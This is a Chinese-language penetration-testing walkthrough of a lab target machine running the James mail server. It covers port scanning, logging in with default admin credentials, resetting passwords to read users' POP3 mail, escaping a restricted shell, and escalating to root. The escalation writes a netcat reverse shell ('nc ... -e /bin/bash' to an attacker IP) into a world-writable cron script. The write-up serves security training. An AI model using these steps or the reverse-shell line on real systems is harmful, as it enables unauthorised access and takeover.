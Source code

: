 
## 信息收集阶段

全端口扫描，查询目标靶机开放端口和服务

```shell
sudo nmap -p- -n -v -sS --max-retries=0 172.16.33.35
```

<img src="https://cos.kevinc.ltd/file/download?fileId=795" style="zoom:33%;" />



进行服务版本扫描

```shell
nmap -p22,25,80,110,119,4555 -sV -A 172.16.33.35
```

<img src="https://cos.kevinc.ltd/file/download?fileId=796" style="zoom:33%;" />

发现有陌生服务`james-admin`,尝试用`searchsploit`看看是否有利用脚本

<img src="https://cos.kevinc.ltd/file/download?fileId=797" style="zoom:33%;" />

有几个版本符合的脚本，尝试利用，但都不成功

<img src="https://cos.kevinc.ltd/file/download?fileId=798" style="zoom:33%;" />

查看脚本具体内容，发现`james-admin`默认账号密码都为`root`, 尝试登录

<img src="https://cos.kevinc.ltd/file/download?fileId=799" style="zoom:33%;" />

使用`help`查看可用命令，注意到有枚举用户的命令`listusers` 和修改密码的命令`setpassword`，修改各用户密码，然后登录`POP3` 邮箱服务，看各用户的邮件，命令如下：

```shell
nc -C 172.16.33.35 110

USER mindy
PASS 123

LIST  # 列出所有邮件
RETR 1 # 查看对应邮件
```



## 利用漏洞拿shell

发现`mindy`的邮件中有账号密码的泄漏，尝试拿这个账号密码去登录远程服务器

登录成功！尝试修改密码，发现`Shell`被限制，为`rbash`

<img src="https://cos.kevinc.ltd/file/download?fileId=801" style="zoom:33%;" />

尝试绕过`rbash`, 这里使用的方法是登录时加入 `-t "bash --noprofile"`

```shell
ssh mindy@172.16.33.35 -t "bash --noprofile"
```

登录成功后发现已成功绕过。

跑一下`./linpeas.sh`提权脚本，发现没什么发现



## 提权

可以查看一下系统各个用户的进程，特别关注一下`james`的

```shell
ps aux | grep james
```

发现有一个`run.sh`在`opt`目录下，查看`opt`目录时发现有一个`tmp.py`文件,该文件的权限是所有用户可读可写可执行

也可以这样查询

```shell
find / -user root -perm -o=w -type f 2>/dev/null | grep -v 'proc\|sys'
```

通过查看该文件内容，判断该文件应该是一个定时删除`tmp`目录内文件的脚本，可尝试写入自己的反弹shell

```shell
echo 'import os;os.system("/bin/nc 10.8.0.17 777 -e /bin/bash")' > tmp.py
```

<img src="https://cos.kevinc.ltd/file/download?fileId=802" style="zoom:33%;" />

等几分钟后获得shell，获得root权限

<img src="https://cos.kevinc.ltd/file/download?fileId=803" style="zoom:33%;" />

